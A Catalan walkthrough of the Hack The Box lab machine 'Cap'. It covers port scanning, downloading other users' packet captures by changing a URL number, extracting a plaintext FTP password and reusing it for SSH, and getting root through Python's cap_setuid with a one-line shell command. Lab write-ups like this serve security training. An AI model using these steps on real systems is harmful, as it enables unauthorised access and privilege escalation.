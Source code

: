 <p align="center">
  <img src="https://github.com/user-attachments/assets/9d0f2f9d-818d-42ae-9dd0-02cf12aeeba0" alt="cap-htb-header" width="700" height="500">
</p>

## NMAP scanning
Escaneig a través d'enviament de paquets TCP SYN a tots els ports del host per detectar quins estan oberts.
````bash
❯ nmap -p- --open -sS -v -n --min-rate=5000 -Pn -n 10.10.10.245

PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 13.45 seconds
           Raw packets sent: 72198 (3.177MB) | Rcvd: 72198 (2.888MB)
````
Amb els ports resultants de l'escaneig anterior, enumerar la versió i llençar els scripts per defecte de NMAP.
````bash
❯ nmap -sCV -p21,22,80 -Pn 10.10.10.245

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-title: Security Dashboard
|_http-server-header: gunicorn
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.05 seconds
                                                                            
````
Buscant la versió de SSH al launchpad d'Ubuntu ja es pot extreure que, segurament, el host té un Ubuntu Focal.

## Web enumeration
Un dels apartats de la web realitza un seguiment del tràfic de la xarxa durant 5 segons i l'exporta en un arxiu .pcap per poder analitzar-lo amb WireShark. Mirant la forma que té l'URL, _/data/[nº], es pot provar si altres números corresponen a algun arxiu .pcap d'un seguiment anterior de la xarxa.

![image](https://github.com/user-attachments/assets/ffdfe307-69b7-459a-aedb-d0c9141b534c)

Hi tenim accés, i podem descarregar tots els arxius per obrir-los amb WireShark i analitzar-los.

## User
El primer arxiu, _0.pcap_, ha capturat una sèrie de connexions fetes pel protocol FTP, entre les quals es troba l'autenticació d'un usuari anomenat _nathan_ amb la contrasenya _Buck3tH4TF0RM3!_.

![image](https://github.com/user-attachments/assets/9f11edef-f0f4-40ca-8dd6-acbba2c07f45)

Si provem les credencials al servidor FTP podem accedir-hi, i podem veure el que sembla el directori _home_ de l'usuari _nathan_. De la mateixa manera, si ens autentiquem mitjançant SSH amb les mateixes credencials, podem aconseguir una consola interactiva com aquest usuari, ja que les credencials es reutilitzen. 

![image](https://github.com/user-attachments/assets/432fb5fc-a3b0-4fd0-be71-4098c40999b4)

## Privilege escalation
Llistant les _capabilities_ del host, podem veure que Python3.8 té assignat _cap_setuid_, pel que es pot utilitzar aquest binari per a manipular el UID d'un procés i, doncs, pot fer-se servir per tenir una consola amb UID 0 (root).
````python
>>> import os; os.setuid(0); os.system("/bin/bash")
````
![image](https://github.com/user-attachments/assets/62020c74-b114-46e5-bc2f-9177f49a34a8)
